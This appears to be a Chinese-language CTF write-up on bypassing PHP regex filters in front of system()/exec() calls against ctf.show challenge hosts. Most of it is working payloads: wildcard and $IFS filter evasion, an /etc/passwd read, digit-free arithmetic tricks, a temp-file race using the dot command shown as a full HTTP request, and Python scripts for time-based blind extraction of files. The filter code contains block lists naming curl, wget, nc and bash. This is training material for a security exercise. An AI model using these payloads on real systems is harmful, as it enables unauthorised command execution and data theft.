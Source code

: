 ## **不可字符分割绕过**
```
$c=$_GET['c'];
if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
```
若flag在当前目录的flag.php中
下面均可
```
?c=vi$IFS????????   //类似vi flag.php F12可以看到源码
?c=uniq$IFS????????
?c=uniq${IFS}????????
?c=/bin/c??$IFS????????    //在bin目录中读取c??  其实就是cat了
?c=grep${IFS}'{'${IFS}fl???php
（在 fl???php匹配到的文件中，查找含有{的文件，并打印出包含 { 的这一行）




cmd=/bin/cat%20/etc/passwd
cmd=/usr/bin/find%20/%20-name%20flag*
```

^
## **无字符绕过**
```
if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    } 
```
若flag在当前目录的flag.php中
/bin/base64 flag.php
```
?c=/???/????64 ????.???
```
/usr/bin/bzip2 flag.php
压缩后访问/flag.php.bz2下载获得flag
```
?c=/???/???/????2 ????.???
```


^
## **无数字创数字**
```
//已知flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}
```
我们要绕过正则变一个36出来
![](.topwrite/assets/image_1732956831826.png)
```
?c=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(()))) ))))
```


^
## **没有过滤.的php临时文件命令执行**
web56
```
// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}
```
因为没有过滤'.'，而点命令在linux中是source的缩写，通过点命令，我们可以在没有执行权限的情况下执行sh命令。
原理是通过POST上传一个文件，文件内容是要执行的命令，并且同时点命令执行该文件，形成条件竞争。这个文件默认保存在/tmp/phpxxxx路径下，所以可以通过/???/????????[@-[]来来构成这个路径，[@-[]为匹配ascii码范围在@-[的字（A，Z被屏蔽，所以范围大一位），之所以用[@-[]是因为直接用/???/?????????匹配到的其他文件都是小写字母，只有php临时生成的文件才包含大写字母。就算这样，也不一定能够准确地匹配到我们的上传文件，所以可能要多次刷新。

使用postman或其他，POST上传临时文件，文件名任意
```
#!/bin/sh
ls
```
同时传参
```
?c=.%20/???/????????[@-[]
```
最终数据包如下：
```
POST /?c=.%20/???/????????[@-[] HTTP/1.1
Host: 13cf7637-c8fc-4c8e-901d-782b7a0c99fd.challenge.ctf.show
Accept-Encoding: gzip, deflate, br
User-Agent: PostmanRuntime/7.42.0
Content-Type: multipart/form-data; boundary=--------------------------974334232652972648027191
Accept: */*
Cache-Control: no-cache
Postman-Token: 12305bc1-76a8-4288-a75d-266bbc6679d3
Content-Length: 220

----------------------------974334232652972648027191
Content-Disposition: form-data; name="filename"; filename="1.txt"
Content-Type: text/plain

#!/bin/sh
cat flag.php
----------------------------974334232652972648027191--
```












^
## **延时盲注**
exec没有回显，并且过滤了. curl nc 写文件。
```
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
```
测试ls;sleep 3可以延时。
延时根目录/
```
import requests
import time
import string
str=string.ascii_letters+string.digits+'_~'
result=""
for i in range(1,10):#行
    key=0
    for j in range(1,15):#列
        if key==1:
            break
        for n in str:
           #awk 'NR=={0}'逐行输出获取
           #cut -c {1} 截取单个字符
            payload="if [ `ls /|awk 'NR=={0}'|cut -c {1}` == {2} ];then sleep 3;fi".format(i,j,n) #使用 cut -c 1 提取第一个字符。
            #print(payload)
            url="http://873b2081-3b04-4517-a10d-dcb44382c44c.challenge.ctf.show/?c="+payload
            try:
                requests.get(url,timeout=(2.5,2.5))
            except:
                result=result+n
                print(result)
                break
            if n=='~':
                key=1
                result+=" "
#找到flag：/f149_15_h3r3
```
延时flag文件中内容
```
import requests
import time
import string
str=string.digits+string.ascii_lowercase+"-"
result=""
key=0
for j in range(1,45):
    print(j)
    if key==1:
        break
    for n in str:
        payload="if [ `cat /f149_15_h3r3|cut -c {0}` == {1} ];then sleep 3;fi".format(j,n) #使用 cut -c 1 提取第一个字符。
        #print(payload)
        url="http://b76bf2c7-70e7-401f-a490-f5963e74b581.challenge.ctf.show/?c="+payload
        try:
            requests.get(url,timeout=(2.5,2.5))
        except:
            result=result+n
            print(result)
            break
```
